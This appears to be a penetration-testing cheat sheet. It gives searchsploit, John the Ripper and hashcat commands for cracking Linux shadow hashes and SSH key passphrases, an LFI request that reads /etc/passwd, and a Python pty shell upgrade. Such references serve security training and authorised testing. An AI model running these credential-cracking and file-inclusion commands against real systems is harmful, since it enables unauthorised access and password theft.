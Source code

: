 See exploit code

```text
searchsploit -x /path/exploit
```

Copy exploit current location

```text
searchsploit -m path/exploit
```

### John the ripper

Merge passwd and shadow files

```text
unshadow /etc/passwd /etc/shadow > unshadow.txt
```

Crack passwords

```text
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadow_pass.txt
```

Crack SSH key passphrase

```text
/usr/share/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
```

Mutate cewl dictionary

```text
john --wordlist=cewl_words.txt --rules --stdout > mutated_words
```

### hashcat

Crack linux passwords

```text
hashcat -m 1800 -O passwd.hash /usr/share/wordlists/rockyou.txt --force
```

### File inclusion

LFI example

```text
http://10.12.13.14/classes/phpmailer/class.cs_phpmailer.php?classes_dir=/etc/passwd%00
```

### Shells

Python interactive bash shell

```text
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm && export SHELL=bash
```
